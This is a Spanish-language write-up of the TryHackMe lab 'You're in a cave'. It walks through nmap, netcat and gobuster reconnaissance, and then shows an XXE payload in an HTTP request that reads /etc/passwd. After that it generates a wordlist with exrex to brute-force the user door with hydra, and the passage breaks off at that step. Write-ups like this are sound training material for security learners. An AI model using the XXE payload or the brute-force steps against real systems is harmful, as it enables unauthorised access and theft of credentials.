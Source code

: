 +++
author = "DarlezSec"
title = "Writeup You're in a cave Nivel Insane, Plataforma TryHackMe."
date = "2022-05-26"
description = "Sample article."
tags = [
"Writeups",
"TryHackMe",
]
categories = [
"Writeups",
"TryHackMe",
]
series = ["Themes Guide"]
aliases = ["migrate-from-jekyl"]
image = "plantilla.png"
+++
## Etapa de Reconocimiento

#### Comenzaremos escaneando puertos y versiones de los servcios que se esten ejecutando, usaremos la herramienta de nmap para hacer esto.
#### haremos un nmap -sS para el SYN Port Scan --min-rate 5000 para no no nos envue paquetes menores a 5000 por segundo -p- para escanear los 65536 puertos -A habilite la detección del sistema operativo, la detección de versiones, el escaneo de secuencias de comandos y el rastreo de rutas -O para habilitar la deteccion del sistema operativo -v para el verbose -oN para guardarlo en un archivo por default de nmap, en mi caso yo le asigne el nombre de nmap_all.txt

```bash 
PORT     STATE SERVICE    VERSION
80/tcp   open  http       Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Document
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
2222/tcp open  ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 79:16:b1:ce:e1:16:79:b4:f1:c7:1f:09:05:b7:75:58 (RSA)
|   256 35:60:6e:3b:a8:ac:4a:6a:76:42:3d:59:13:04:90:19 (ECDSA)
|_  256 79:a6:05:ca:84:32:dc:59:b4:9b:8b:30:95:34:00:c8 (ED25519)
3333/tcp open  dec-notes?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, JavaRMI, NULL, RPCCheck, SMBProgNeg, X11Probe, kumo-server: 
|     You find yourself in a cave, what do you do?
|   FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, Help, Kerberos, LPDString, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     You find yourself in a cave, what do you do?
|_    Nothing happens
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3333-TCP:V=7.92%I=7%D=6/18%Time=62AEA2FB%P=x86_64-pc-linux-gnu%r(NU
SF:LL,2D,"You\x20find\x20yourself\x20in\x20a\x20cave,\x20what\x20do\x20you
SF:\x20do\?\n")%r(GenericLines,3D,"You\x20find\x20yourself\x20in\x20a\x20c
SF:ave,\x20what\x20do\x20you\x20do\?\nNothing\x20happens\n")%r(LPDString,3
SF:D,"You\x20find\x20yourself\x20in\x20a\x20cave,\x20what\x20do\x20you\x20
SF:do\?\nNothing\x20happens\n")%r(JavaRMI,2D,"You\x20find\x20yourself\x20i
SF:n\x20a\x20cave,\x20what\x20do\x20you\x20do\?\n")%r(kumo-server,2D,"You\
SF:x20find\x20yourself\x20in\x20a\x20cave,\x20what\x20do\x20you\x20do\?\n"
SF:)%r(GetRequest,3D,"You\x20find\x20yourself\x20in\x20a\x20cave,\x20what\
SF:x20do\x20you\x20do\?\nNothing\x20happens\n")%r(HTTPOptions,3D,"You\x20f
SF:ind\x20yourself\x20in\x20a\x20cave,\x20what\x20do\x20you\x20do\?\nNothi
SF:ng\x20happens\n")%r(RTSPRequest,3D,"You\x20find\x20yourself\x20in\x20a\
SF:x20cave,\x20what\x20do\x20you\x20do\?\nNothing\x20happens\n")%r(RPCChec
SF:k,2D,"You\x20find\x20yourself\x20in\x20a\x20cave,\x20what\x20do\x20you\
SF:x20do\?\n")%r(DNSVersionBindReqTCP,2D,"You\x20find\x20yourself\x20in\x2
SF:0a\x20cave,\x20what\x20do\x20you\x20do\?\n")%r(DNSStatusRequestTCP,2D,"
SF:You\x20find\x20yourself\x20in\x20a\x20cave,\x20what\x20do\x20you\x20do\
SF:?\n")%r(Help,3D,"You\x20find\x20yourself\x20in\x20a\x20cave,\x20what\x2
SF:0do\x20you\x20do\?\nNothing\x20happens\n")%r(SSLSessionReq,3D,"You\x20f
SF:ind\x20yourself\x20in\x20a\x20cave,\x20what\x20do\x20you\x20do\?\nNothi
SF:ng\x20happens\n")%r(TerminalServerCookie,3D,"You\x20find\x20yourself\x2
SF:0in\x20a\x20cave,\x20what\x20do\x20you\x20do\?\nNothing\x20happens\n")%
SF:r(TLSSessionReq,3D,"You\x20find\x20yourself\x20in\x20a\x20cave,\x20what
SF:\x20do\x20you\x20do\?\nNothing\x20happens\n")%r(Kerberos,3D,"You\x20fin
SF:d\x20yourself\x20in\x20a\x20cave,\x20what\x20do\x20you\x20do\?\nNothing
SF:\x20happens\n")%r(SMBProgNeg,2D,"You\x20find\x20yourself\x20in\x20a\x20
SF:cave,\x20what\x20do\x20you\x20do\?\n")%r(X11Probe,2D,"You\x20find\x20yo
SF:urself\x20in\x20a\x20cave,\x20what\x20do\x20you\x20do\?\n")%r(FourOhFou
SF:rRequest,3D,"You\x20find\x20yourself\x20in\x20a\x20cave,\x20what\x20do\
SF:x20you\x20do\?\nNothing\x20happens\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel```

#### Vemos que hay un "Dec-notes" en anteriores ctfs he sacado banner con netcat y siempre suelo obtener pistas o hasta credenciales asi que intentemos

```bash
➜  inacave git:(main) ✗ nc 10.10.195.133 3333
You find yourself in a cave, what do you do?
```

#### Como ven nos pregunta que estamos en una cueva y que hariamos? no tiene mucho sentido.. porque no enumeramos mejor?
#### usaremos la herramienta de Gobuster para enumerar directorios 

```bash
➜  inacave gobuster dir -u http://10.10.12.10/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,js,class,sh,jar,html -t 200 2>/dev/null
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.12.10/
[+] Method:                  GET
[+] Threads:                 200
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              js,class,sh,jar,html,php
[+] Timeout:                 10s
===============================================================
2022/06/19 00:04:07 Starting gobuster in directory enumeration mode
===============================================================
/search               (Status: 200) [Size: 197]
/action.php           (Status: 400) [Size: 0]  
/attack               (Status: 200) [Size: 181]
/lamp                 (Status: 200) [Size: 261]
/matches              (Status: 200) [Size: 249]
/walk                 (Status: 200) [Size: 161]
```

#### Recuerdan anteriormente que al intentar sacar el banner de el puerto 3333 nos pregunataba que que hariamos si estabamos en una cueva?
#### talvez estas podrian ser las respuestas... intentemos con la mas razonable que es /lamp

```bash
➜  inacave git:(main) ✗ nc 10.10.195.133 3333
You find yourself in a cave, what do you do?
/lamp
You grab a lamp, and it gives enough light to search around
Action.class
RPG.class
RPG.java
Serialize.class
commons-io-2.7.jar
run.sh
```

#### esto sigue sin tener sentido... veamos la pagina 

![](page.png)

#### usemos burpsuite para analizar la web y ver si podemos encontrar alguna vulnerabulidad de la que nos podamos aprovechar..

## Busqueda de Vulnerabilidades 

#### Interceptamos la pagina y vemos que si mandamos una accion nos devuelve un "action=nuestra_accion" 

![](burp.png)

#### como vemos es vulnerable a XXE ML External Entity es una vulnerabilidad presente en las aplicaciones que analizan entradas XML, lo mandamos a repeater y juguemos con el XXE, una forma clasica de Intentamos mostrar el contenido del archivo /etc/passwd es de esta forma

```bash
POST /action.php HTTP/1.1

Host: 10.10.12.10

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Content-Type: application/x-www-form-urlencoded

Content-Length: 108

Origin: http://10.10.12.10

Connection: close

Referer: http://10.10.12.10/

Upgrade-Insecure-Requests: 1

<?xml version="1.0"?><!DOCTYPE root [<!ENTITY test SYSTEM 'file:///etc/passwd'>]><root>&test;</root>
```
 
#### y como ven aqui se nos despliega el /etc/passwd 

![](passwd.png)

#### pero si nos vamos un poco mas abajo encontraremos estos usarios inusuales...

![](users.png)

### como ven son 3 usuarios esqueleton, cave y door.. he intentando navegar entre directorios con el usuario cave y logre encontrar un archivo en /home/cave llamado info.txt donde parece almacenar una contraseña cifrada..

#### usaremos exrex.py para generar un diccionario y poder encontrar la contraseña de el usuario..


```bash
➜  inacave git:(main) ✗ git clone https://github.com/asciimoo/exrex.git
Clonando en 'exrex'...
remote: Enumerating objects: 488, done.
remote: Counting objects: 100% (4/4), done.
remote: Compressing objects: 100% (4/4), done.
remote: Total 488 (delta 0), reused 1 (delta 0), pack-reused 484
Recibiendo objetos: 100% (488/488), 448.34 KiB | 637.00 KiB/s, listo.
Resolviendo deltas: 100% (236/236), listo.
➜  inacave git:(main) ✗ cd exrex                                                              
➜  exrex git:(master) ls
COPYING  doc  exrex.py  MANIFEST.in  README.md  setup.py  tests.py  tox.ini
➜  exrex git:(master) python exrex.py -o passwords.txt "     ^ed[h#f]{3}[123]{1,2}xf[\!@#*]$"
➜  exrex git:(master) ✗ ls
COPYING  doc  exrex.py  MANIFEST.in  passwords.txt  README.md  setup.py  tests.py  tox.ini
```

## Etapa de Intrusion

#### Como ven ya tenemos nuestro diccionario creado ahora usaremos hydra para hacer una fuerza bruta y obtener las primeras credenciales y la primera respuesta de la pregunta 1 de esta CTF..
#### he probado con todos los usuarios que teniamos y con el unico que me llego a funcionar fue door.. 
